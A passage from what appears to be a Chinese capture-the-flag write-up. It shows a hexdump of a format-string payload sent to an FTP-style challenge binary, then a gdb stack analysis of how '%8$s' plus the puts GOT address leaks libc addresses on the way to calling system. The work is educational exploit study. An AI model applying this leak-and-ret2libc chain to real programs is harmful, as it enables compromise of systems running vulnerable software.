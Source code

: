 ```assembly
    00000020  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 d8  │    │    │    │   ·│
    00000030  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 04  │    │    │    │   ·│
    00000040  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    000000d0  20 20 20 20  20 d8 20 20  20 20 20 20  20 20 20 20  │    │ ·  │    │    │
    000000e0  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    000000f0  20 20 20 20  20 20 f4 61  61 61 29 a0  04 08 28 a0  │    │  ·a│aa)·│··(·│
    00000100  04 08 2a a0  04 08 2b a0  04 08                     │··*·│··+·│··│
    0000010a
                                               \xd8               \x04                                                                                                                                                    \xd8                                \xf4aaa)\xa0\x04(\xa0\x04*\xa[DEBUG] Received 0x4 bytes:
    b'ftp>'
ftp>
```



# gdb Post Analysis

> 使用gdb分析上述脚本运行过程中的栈帧变化，分析exploit起效的原因

运行exploit脚本，并`gdb.attach(sh)`，gdb内下断点：

```gdb
b printf
b puts
b system
```

- 在已经put了一个`file`结构体`file->name=1111; file->content= b"%8$s" + p32(puts_got) `之后，`get 1111`时，调用`printf("%8$s" + p32(puts_got))` 时的栈帧：

```assembly
gef➤  c # sh.sendline('get') sh.sendline('1111') 后，程序运行到了printf(dest)
───────────────────────────────────────── stack ────
0xff9ab98c│+0x0000: 0x080488a3  →  <get_file+173> leave          ← $esp
0xff9ab990│+0x0004: 0xff9ab9ac  →  0x73243825 # fmt str指针为 0xff9ab9ac # 故fmt str地址为fmt str指针所在位置的第7个参数位置处
0xff9ab994│+0x0008: 0x088ee1d8  →  0x73243825
0xff9ab998│+0x000c: 0x00000004
0xff9ab99c│+0x0010: 0xf7d2c9d8  →  0x00003787
0xff9ab9a0│+0x0014: 0xf7f046f4  →  0xf7d9c130  →  <_IO_cleanup+0> push ebp
0xff9ab9a4│+0x0018: 0x000007d4
0xff9ab9a8│+0x001c: 0xf7f03f20  →  0x00000000
───────────────────────────────────────── trace ────
[#0] 0xf7d72060 → __printf(format=0xff9ab9ac "%8$s(\240\004\b") 
[#1] 0x80488a3 → get_file()
[#2] 0x80486c9 → main()
gef➤
```

- fmt str地址为fmt str指针所在位置的第7个参数位置处，`%8$s`占用4B，故`p32(puts_got)`在fmt str指针所在位置的第8个参数处。
- 至此，利用 `puts@got` 获取到了 `puts` 函数真实地址。而后利用`LibcSearcher`库，得到`libc`版本，从而得到对应`system`函数的地址。
